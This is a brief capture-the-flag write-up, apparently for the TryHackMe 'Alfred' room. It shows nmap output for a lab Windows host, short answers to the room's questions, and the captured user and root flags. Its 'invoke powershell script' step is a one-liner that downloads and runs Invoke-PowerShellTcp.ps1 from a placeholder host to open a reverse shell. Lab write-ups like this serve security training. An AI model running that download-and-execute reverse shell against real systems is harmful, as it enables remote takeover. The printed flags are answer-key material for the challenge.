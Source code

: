 # Alred THM

>Nathaniel Mickel | 10 Sept, 2021

```bash
export IP=10.10.64.42
```
 Nmap 7.91 scan initiated Fri Sep 10 08:16:43 2021 as: nmap -sV -sC -oN nmap/initial 10.10.64.42
Nmap scan report for 10.10.64.42
Host is up (0.52s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2021-09-10T13:22:28+00:00
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-09-09T13:14:47
|_Not valid after:  2022-03-11T13:14:47
|_ssl-date: 2021-09-10T13:22:47+00:00; 0s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


>How many ports are open? (TCP only)

```
3
```

>Login panel username and password

```
admin
```

>invoke powershell script

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

>Flags
```
User Flag: 79007a09481963edf2e1321abd9ae2a0
Root Flag: dff0f748678f280250f25a45b8046b4a
```